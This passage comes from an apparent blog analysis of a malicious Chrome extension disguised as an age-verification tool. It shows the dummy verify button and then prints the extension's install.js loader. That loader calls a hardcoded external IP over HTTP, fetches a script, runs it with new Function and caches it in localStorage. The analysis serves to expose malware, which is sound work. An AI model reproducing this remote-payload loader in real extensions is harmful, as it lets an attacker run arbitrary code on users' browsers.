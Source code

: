 {% highlight javascript linenos %}
document.querySelector('#submit').addEventListener('click', function() {
	document.querySelector('#box').hidden = true;
	document.querySelector('#loading').hidden = false;
	
	setTimeout(function() {
		document.querySelector('#loading').hidden = true;
		document.querySelector('#done').hidden = false;
	}, (randomIntFromInterval(0, 2) / 2 + 0.5) * 1000);
});
{% endhighlight %}

Yes, you're reading this right. If you click "Verify" it will display "Loading..." and idle for a random amount of time, and then say "Done". It doesn't do anything; the age verification is a dummy.

So what is it hiding? The extension runs two more scripts, namely `query-string.js` and `install.js`. Let's see what's going on in those.

## What is it actually doing?

### Fetching a remote payload
The `query-string.js` script isn't of much interest, as it's just a copy of [this <abbr title="Node Package Manager">NPM</abbr> package](https://github.com/sindresorhus/query-string).

*But you'll never believe what install.js does! Line 133 will surprise you* (It hurt me a little bit on the inside to write a sentence like that).

Among the first lines of `install.js` is this eye-striking line:

{% highlight javascript %}
var programUrl = 'http://104.131.35.136:9999/jsnew.php?id=22';
{% endhighlight %}

It's a hardcoded variable for an external server on which to fetch scripts (also it doesn't even have the courtesy to do it over HTTPS. Bonus <abbr title="Man In The Middle">MITM</abbr> attacks yay!).

*Spoiler alert*: The script that it fetches from the above server is a malware payload. The extension needs to download it after having been installed because it cannot ship with the payload if it wants to pass through the Chrome Webstore's security checks.

It fetches a script from the server, stores it in localStorage and executes it. We can see this happening in the `getProgram()` function.

{% highlight javascript linenos %}
function getProgram(event) {
	var xhr = new XMLHttpRequest();
	var url = programUrl;
	var querySign = url.indexOf('?') === -1 ? '?' : '&';
	
	url += querySign + 'r=' + Date.now();
	
	xhr.open('GET', url, true);
	xhr.setRequestHeader('XYZ-Extension-Id', chrome.runtime.id);
	
	xhr.onload = function() {
		var code = xhr.response;
		
		try {
			var fn = new window['Function'](code);
			console.log('Executing loaded code');
			fn(); // exit if error
	
			localStorage.setItem('localCode', code);
		} catch (e) {
			console.error(e);
		}
		
		xhr.send();
	}